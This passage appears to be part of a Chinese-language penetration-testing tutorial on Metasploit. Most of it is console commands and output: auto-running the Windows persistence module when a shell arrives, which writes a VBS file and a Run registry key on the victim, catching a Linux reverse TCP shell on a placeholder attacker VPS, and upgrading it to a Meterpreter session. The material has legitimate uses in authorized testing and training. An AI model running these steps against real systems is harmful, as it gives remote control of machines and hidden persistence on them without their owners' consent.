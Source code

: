 可以通过设置 AutoRunScript 在接收到 shell 后，自动进行权限维持：

```console
msf6 exploit(multi/handler) > set AutoRunScript exploit/windows/local/persistence
AutoRunScript => exploit/windows/local/persistence
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on atk_ip:4444
[*] Sending stage (200774 bytes) to xx.xx.xx.xx
[*] Session ID 2 (atk_ip:4444 -> xx.xx.xx.xx:25452) processing AutoRunScript 'exploit/windows/local/persistence'
[-] Handler failed to bind to atk_ip:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Running persistent module against DESKTOP-TEST via session ID: 2
[+] Persistent VBS script written on DESKTOP-TEST to C:\Users\test\AppData\Local\Temp\wWdKedhW.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\aSyvDKvC
[+] Installed autorun on DESKTOP-TEST as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\aSyvDKvC
[*] Clean up Meterpreter RC file: /home/kali/.msf4/logs/persistence/DESKTOP-TEST_20230517.3540/DESKTOP-TEST_20230517.3540.rc

[*] Meterpreter session 2 opened (atk_ip:4444 -> xx.xx.xx.xx:25452) at 2023-05-17 22:35:47 +0800

meterpreter >
```

### 接收反弹 shell（Receive Reverse Shell）

```console
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost <atk_vps_ip>
lhost => <atk_vps_ip>
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on <atk_vps_ip>:4444
[*] Command shell session 1 opened (<atk_vps_ip>:4444 -> <target_ip>:41286) at 2023-07-19 21:38:00 +0800
```

接收到一个普通的 bash shell，与 nc 接收的并没有区别，我们可以将其提升为功能更加强大的 meterpreter 会话，以便我们进行其它操作。

先使用 `ctrl+z` 或输入 `background` 可选择将普通 session 放入后台，再使用 `use post/multi/manage/shell_to_meterpreter` 模块获得一个新的 meterpreter 会话：

```console
root@ubuntu:/# background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on lhost.ll.ll.ll:4433
[*] Sending stage (1017704 bytes) to rhost.rr.rr.rr
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

```